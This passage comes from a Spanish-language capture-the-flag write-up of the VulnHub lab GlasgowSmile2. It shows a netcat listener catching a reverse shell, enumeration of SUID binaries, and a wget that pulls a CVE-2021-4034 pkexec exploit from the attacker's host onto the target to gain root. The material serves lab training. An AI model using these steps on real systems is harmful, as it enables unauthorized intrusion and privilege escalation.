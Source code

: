 ![rs2](/assets/img/commons/vulnhub/GlasgowSmile2/rs2.png){: .center-image }
![rs3](/assets/img/commons/vulnhub/GlasgowSmile2/rs3.png){: .center-image }

```bash
❯ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.11.12.10] from (UNKNOWN) [10.11.12.54] 51714
bash: cannot set terminal process group (555): Inappropriate ioctl for device
bash: no job control in this shell
www-data@glasgowsmile2:/var/www/html/Glasgow---Smile2$
```

## Escalación de privilegios

---

Validamos los binarios `SUID`{: .filepath} del sistema.

```bash
www-data@glasgowsmile2:/var/www/html/Glasgow---Smile2$ find / -perm -4000 2>/dev/null
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/umount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
```

Explotamos el binario `pkexec` mediante [CVE-2021-4034](https://github.com/Almorabea/pkexec-exploit).

Compartimos el exploit con la máquina, lo ejecutamos y somos root. 

Listamos todas las flags.

```bash
www-data@glasgowsmile2:/tmp$ wget 10.11.12.10/CVE-2021-4034.py
--2025-03-12 20:25:11--  http://10.11.12.10/CVE-2021-4034.py
Connecting to 10.11.12.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3068 (3.0K) [text/x-python]
Saving to: 'CVE-2021-4034.py'

CVE-2021-4034.py                                                 100%[==========================================================================================================================================================>]   3.00K  --.-KB/s    in 0s

2025-03-12 20:25:11 (371 MB/s) - 'CVE-2021-4034.py' saved [3068/3068]

```